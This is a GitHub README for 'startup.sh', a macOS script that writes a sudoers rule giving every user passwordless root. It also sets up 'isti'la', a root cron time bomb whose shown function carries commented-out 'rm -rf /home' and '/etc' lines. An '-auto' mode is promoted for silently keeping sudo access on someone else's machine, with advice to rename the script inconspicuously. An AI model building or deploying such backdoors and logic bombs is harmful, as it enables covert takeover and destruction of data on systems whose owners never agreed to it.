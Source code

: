 # `startup.sh`
## A MacOS Shell Script

Note: This branch deliberately omits the safety precautions in the [main](https://github.com/Eccys/startup.sh) branch.

## Requirements
You must have some prerequisites before installing/running this script:
- A MacOS machine
- Access to sudo
- git/curl
- cron (installed by default)

## Installation
Clone this repository, preferably, but not necessarily in the `/opt` directory:
```sh
# git clone https://github.com/eccys/startup.sh
# cd startup.sh
```

If `git` is not available, download the raw script with [curl](https://curl.se/):
```sh
# curl -O https://raw.githubusercontent.com/Eccys/startup.sh/main/startup.sh
```

Make it executable:
```sh
sudo chmod +x startup.sh
```
Run it:
```sh
./startup.sh
```

## Usage

Upon running and entering your sudo password, one is greeted with some information and options, which are self explanatory:
```sh
[root@hostname /opt]# ./startup.sh

List of super users: root
Passwordless sudo enabled: No
isti'la is disabled

Options:
1 = Toggle someone sudo
2 = Toggle sudo password requirement
3 = Enable/Disable isti'la

Select an option or press any other key to quit: 
```

If isti'la is enabled, the isti'la date is shown.

### Toggle someone sudo
On selecting this option, it will prompt for a user's username. The user is made into an administrator. This is safer than __Passwordless sudo__.

### Passwordless sudo
This writes to a file, `/etc/sudoers.d/nopasswd_for_all`, which contains the line `ALL ALL=(ALL) NOPASSWD: ALL`. It allows for anyone, even non-administrators, to use `sudo` and execute programs and/or commands as root. 

This works very well, as by default, the `/etc/sudoers` extends `/etc/suoders.d/`. It is very dangerous, and should never be left on, unless of course.. it is the desired outcome ;)

### Isti'la

Istila is a turkish word. This option is different from others, as it is coined solely for destruction.

#### What isti'la does
When enabling isti'la, it will prompt for a date. in the format `YYYYMMDDHH`. (e.g., `2024120112` for December 1st, 2024, 12PM.)

If enabled, isti'la writes the date to `/etc/isti'la_enabled`, and establishes a cron task in the root user's crontab, running every minute checking if the current date is greater than or equal to the isti'la date.

If it is, the commands specified in the script are executed:

```sh
# Function to execute isti'la if conditions are met
execute_istila() {
    if [ -f /etc/istila_enabled ]; then
        CURRENT_DATE=$(date +%Y%m%d%H)  # Convert current date to an integer format
        ISTILA_DATE=$(cat /etc/istila_enabled)

        if [ "$CURRENT_DATE" -ge "$ISTILA_DATE" ]; then
            if [ "$AUTO_MODE" != "true" ]; then
                echo "Executing isti'la..."
            fi
            # Uncomment the lines below to enable isti'la actions
            echo Successfully executed cron job and istila operation | sudo tee -a /opt/test >/dev/null
            # sudo rm -rf /home
            # sudo rm -rf /etc
        else
            if [ "$AUTO_MODE" != "true" ]; then
                echo "isti'la date has not yet arrived."
            fi
        fi
    fi
}
```

It is very useful for executing certain actions after a specified "doomsday" has passed.

> [!IMPORTANT]
> Commands such as `sudo rm -rf --no-preserve-root` are futile on MacOS environments with [System Integrity Protection](https://support.apple.com/en-us/102149) enabled. Likewise, any operation which seeks to modify files in `/bin`, `/sbin`, `/System`, `/var`, or `/usr`.

## Auto mode

The script supports the `-auto` flag. Execute:
```sh
./startup.sh -auto
```
Upon running the script in auto mode, __Passwordless sudo__ is automatically enabled, and that's it. 

Very useful for scenarios where someone types in their sudo password and their cooldown has not yet expired, and one wishes to retain sudo access silently. One may fork this repository and rename it to something inconspicuous, or use it as part of their own project. Running it in auto mode is inherently inconspicuous itself, as only a single word is printed: `Done.`.

### Isti'la with auto mode

The auto flag supports enabling isti'la automatically, via an argument. For example:
```sh
./startup.sh -auto 2024120112
```
will enable __Passwordless sudo__ as well as isti'la with the date `2024120112` (December 1st, 2024, 12PM). If all processes are executed successfully, one line is printed: `Done. isti'la date: <date>. Cron job is successful.`.

It is also very inconspicuous. Passwordless sudo is enabled regardless, as it is required for the cron job to be able to execute commands prefixed with `sudo`. However, this is not true, as it writes the cron job to the root user's crontab.

Pull requests and issues regarding extending functionality or correcting unexpected behavior are welcome.
